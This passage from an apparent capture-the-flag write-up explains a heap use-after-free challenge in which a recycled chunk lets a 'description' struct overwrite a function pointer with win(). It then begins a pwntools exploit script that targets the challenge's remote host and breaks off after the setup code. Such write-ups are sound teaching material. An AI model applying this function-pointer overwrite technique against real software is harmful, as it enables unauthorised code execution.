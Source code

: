also note: we're still able to access these chunks since the program doesn't nullify it.

Next, we allocate a new `description`, and because of how malloc implements free chunk caching, it will recycle chunk1's segment.&#x20;

The interesting bit is that since we're allocating a `description` struct, we're able to write more up to the offset of the function pointer, allowing us to overwrite it with whatever we want.

<figure><img src="../../.gitbook/assets/Untitled-2023-12-28-2058 (7).png" alt="" width="563"><figcaption></figcaption></figure>

notice how `description[0]` and `ctfs[0]` now occupies or points to the same memory region. And the when we use option 5, it will use either one of the function pointer depending to which struct it dereferencing.&#x20;

Now we just need to overwrite the function pointer with `win()` and call option 5. Once it dereference the `ctfs[0]`, it will call `win()` instead of print.&#x20;

Below is the full exploit script:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './heap'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
host, port = '35.234.88.19', 30866 

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
```